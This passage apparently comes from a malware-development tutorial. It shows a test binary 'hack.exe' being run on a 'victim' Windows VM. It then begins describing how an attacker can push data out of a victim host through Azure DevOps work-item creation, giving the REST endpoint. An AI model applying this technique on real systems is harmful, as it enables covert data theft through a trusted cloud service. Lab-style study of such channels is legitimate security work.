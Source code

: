 Then, run in the victim's machine (in my case `Windows 10/11` VM):    

```powershell
.\hack.exe
```

![malware](/assets/images/171/2025-08-11_15-16.png){:class="img-responsive"}    

![malware](/assets/images/171/2025-08-11_15-16_1.png){:class="img-responsive"}    

As you can see, everything is worked as expected!     

### practical example 2

Let's update our logic: creating a work item with a title. Since an attacker want push data from victim's host instead of pulling. Azure DevOps supports creating work items via REST API.    

We can send a JSON PATCH request to:     

```bash
POST /ORG/PROJECT/_apis/wit/workitems/$Task?api-version=7.1
Content-Type: application/json-patch+json
```
